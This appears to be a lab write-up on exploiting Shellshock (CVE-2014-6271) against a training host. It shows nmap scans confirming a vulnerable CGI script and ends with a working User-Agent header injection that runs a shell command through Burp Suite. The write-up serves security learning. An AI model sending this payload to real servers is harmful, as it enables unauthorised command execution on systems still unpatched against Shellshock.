









## Shellshock

### Target
`demo.ine.local`

### Tools used:
* `nmap`
* `Burp Suite`

---
First we just do a basic `nmap` scan of the target.
```bash
┌──(root㉿INE)-[~]
└─# nmap demo.ine.local
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-01-07 09:52 IST
Nmap scan report for demo.ine.local (192.136.193.3)
Host is up (0.000026s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:C0:88:C1:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.19 seconds
```
We see that there is an http service running on port 80. If we go and check it via a browser, we notice that the website looks pretty normal except for a timer at the middle of the website.
  
If we inspect the page source, we notice that the website runs the timer via a ***.cgi*** script. 

Further since it's a website we can access via http, we can go ahead and check the webpage.
  
Now we just need to check if this url is vulnerable to ***shellshock***. We can use the nmap script **http-shellshock** to check it.  
```bash
┌──(root㉿INE)-[~]
└─# nmap -Pn -p80 --script http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" demo.ine.local                                                                                
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-01-07 10:00 IST
Nmap scan report for demo.ine.local (192.136.193.3)
Host is up (0.00024s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       http://seclists.org/oss-sec/2014/q3/685
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
MAC Address: 02:42:C0:88:C1:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.21 seconds
```
We see that the website is vulnerable to shellshock. Now we load up `Burp suite` and allow it to act as a proxy for the webpage via the `FoxyProxy` extension.
  
Once we start the **interceptor**, the packets will start appearing at `Burp suite`.

We are looking to modify the ***User-Agent*** field. For this we first forward this packet to the **Repeater**, where we can repeatedly send modifications of this packet and track the response.  
  
  
First we forward the packet as is to check if it's working properly  
  
Now, we modify the **User-Agent** fiels with the following value:  
`() { :; }; echo; echo; /bin/bash -c 'whoami'`  
When we finally forward the packet we find the result displayed.  

